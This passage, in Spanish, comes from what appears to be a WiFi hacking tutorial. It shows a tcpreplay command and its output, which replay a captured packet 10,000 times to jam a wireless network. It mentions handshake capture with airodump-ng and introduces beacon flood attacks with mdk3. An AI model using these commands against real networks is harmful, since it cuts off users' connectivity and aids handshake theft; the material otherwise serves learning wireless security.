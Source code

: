 Ahora lo guardamos y lo abrimos con `wireshark`

Bueno como tal tuve unos pequeños inconvenientes y tuve que usar otro paquete pero para hacer el ataque simplemente hacemos lo siguiente

Con `tcpreplay` indicándole la tarjeta de red en modo monitor a máxima velocidad le indicamos los **loops** para que haga 10K de iteraciones y le indicamos el paquete para que lo repita

```bash
❯ tcpreplay --intf1=wlan0mon --topspeed --loop=10000 ya.pcap 2>/dev/null
Actual: 10000 packets (280000 bytes) sent in 19.25 seconds
Rated: 14539.0 Bps, 0.116 Mbps, 519.25 pps
Statistics for network device: wlan0mon
	Successful packets:        10000
	Failed packets:            0
	Truncated packets:         0
	Retried packets (ENOBUFS): 0
	Retried packets (EAGAIN):  0
```

Lo que deberíamos de ver en nuestros dispositivos es que la señal de tu wifi las rayitas tienen que disminuir ya que secuestraste de tal manera el ancho de banda, si lo que quieres es el **handshake** simplemente te pones con `airodump-ng` para capturarlo cuando el cliente se reasocie.

## Beacon Flood Mode Attack 

Para empezar el **Beacon** es un tipo de paquete que contiene informacion sobre el punto de acceso informacion sobre el canal en el que esta, el tipo de encriptado, el nombre y esas cosas.

Una forma de ver los paquetes es con `tshark` podemos filtrar directamente por esos paquetes mientras en otra terminal nos ponemos a monitorear con `airodump-ng`

![](/assets/images/hacking-writeup-wifi/web29.png)

Con la herramienta `mdk3` podemos generar este ataque esto lo que consigue es generar muchos paquetes de tipo **Beacon** vamos a generar demasiados **AP** en el mismo canal donde se sitúa el **AP** que tenemos para que la red se quede inoperativa para los clientes
